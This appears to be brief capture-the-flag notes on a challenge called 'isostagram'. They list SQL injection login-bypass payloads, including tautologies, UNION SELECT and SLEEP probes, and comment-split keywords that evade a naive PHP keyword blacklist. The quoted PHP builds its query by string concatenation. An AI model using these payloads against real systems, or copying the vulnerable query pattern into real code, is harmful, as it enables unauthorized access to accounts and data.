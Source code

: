 # isostagram
- its probably sql injection

- these crash the site
admin") or "1"="1"/*  
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055  
UNION ALL SELECT NULL#  
ORDER BY 1,SLEEP(5)#  
AS INJECTX WHERE 1=1 AND 1=1  
' or 1=1 --  


$blacklist = array("union", "select", "where", "and", "or");
$replace = array("", "", "", "", "");
$username = str_ireplace($blacklist, $replace, $username);
$password = str_ireplace($blacklist, $replace, $password);
$sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";

'AS INJECTX W/**/HERE 1=1 AND 1=1 LIMIT 1 --
' O/**/R 1=1 LIMIT 1 --
* LIMIT 1